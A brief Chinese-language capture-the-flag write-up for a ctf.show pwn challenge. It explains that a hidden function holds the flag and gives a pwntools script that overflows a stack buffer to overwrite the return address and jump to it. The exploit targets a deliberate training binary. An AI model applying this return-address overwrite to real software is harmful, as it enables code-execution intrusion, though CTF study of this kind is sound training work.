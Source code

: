 # 挑战简介
没难度

# 思路
bypass,即指绕过一些类似检测这类的东西，来获取敏感信息  

看似只有write和read函数，但是仔细看，其中_do_global函数中藏了flag，直接覆盖返回地址到这个函数即可  

```
from pwn import *
from LibcSearcher import *
context(arch = "amd64",os = 'linux',log_level = 'debug')

#context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show',28312)

elf = ELF('D:\edge 下载\pwn')

io.recvuntil(b'Input your message:\n')

offset = 0x80+0x8

flag = 0x400697

payload = b'a' * offset + p64(flag)

io.sendline(payload)

io.interactive()
```
